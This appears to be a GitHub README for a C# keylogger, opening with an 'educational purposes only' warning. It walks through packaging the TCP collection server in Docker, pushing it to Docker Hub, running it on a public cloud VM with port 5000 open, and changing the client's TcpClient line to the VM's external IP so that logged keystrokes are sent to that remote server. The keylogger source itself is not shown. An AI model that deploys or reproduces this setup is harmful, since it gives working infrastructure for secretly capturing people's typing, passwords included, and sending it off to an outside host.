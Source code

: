 [!WARNING]
For educational purposes only!

---
# Key Logger

Here’s how to run the TCP server **locally** or inside a **Docker container** and deploy it to a cloud VM.

---

## Build and Test the Docker Image Locally

1. **Build the Server Project**:
   - Open a terminal in the server project directory and build the project:
     ```bash
     dotnet build
     ```

2. **Build the Docker Image**:
   - Create a Docker image:
     ```bash
     docker build -t keylogger-server .
     ```

3. **Run the Docker Container**:
   - Run the container and map the port `5000` from the container to the local machine:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Test Locally**:
   - The server should now be running at `127.0.0.1:5000`.
   - Run the **keylogger client** and confirm it can connect to the server.

---

## Deploy to a Cloud VM

To deploy the server to a cloud-hosted VM:

1. **Provision a VM**:
   - Create a virtual machine using a cloud provider (AWS EC2, Azure VM, GCP Compute Engine).
   - Choose a VM image with **Docker installed** (e.g., Ubuntu with Docker pre-installed).

2. **Transfer the Docker Image**:
   - Log in to Docker Hub:
     ```bash
     docker login
     ```
   - Tag your image:
     ```bash
     docker tag keylogger-server <your-dockerhub-username>/keylogger-server:latest
     ```
   - Push the image:
     ```bash
     docker push <your-dockerhub-username>/keylogger-server:latest
     ```
   - On the VM, pull the image:
     ```bash
     docker pull <your-dockerhub-username>/keylogger-server:latest
     ```

3. **Run the Server Container on the VM**:
   - Start the server container and map port `5000`:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Open the VM’s Firewall**:
   - Allow inbound traffic on **port 5000** in the cloud provider’s firewall settings so the client can connect.

5. **Find the External IP**:
   - Check the external (public) IP address of your VM.

---

## Update the Keylogger Client to Use the External IP

In the **keylogger client** project, replace `127.0.0.1` with the VM's external IP address:

```csharp
using TcpClient client = new TcpClient("123.456.78.90", 5000); // Replace with your VM's external IP
```

---

## Test the Entire Setup

1. Ensure the TCP server container is running on the cloud VM.
2. Run the keylogger client on your **local machine**.
3. Confirm the client connects to the server and sends the key data.
4. Check the server’s output (or the log file) on the VM.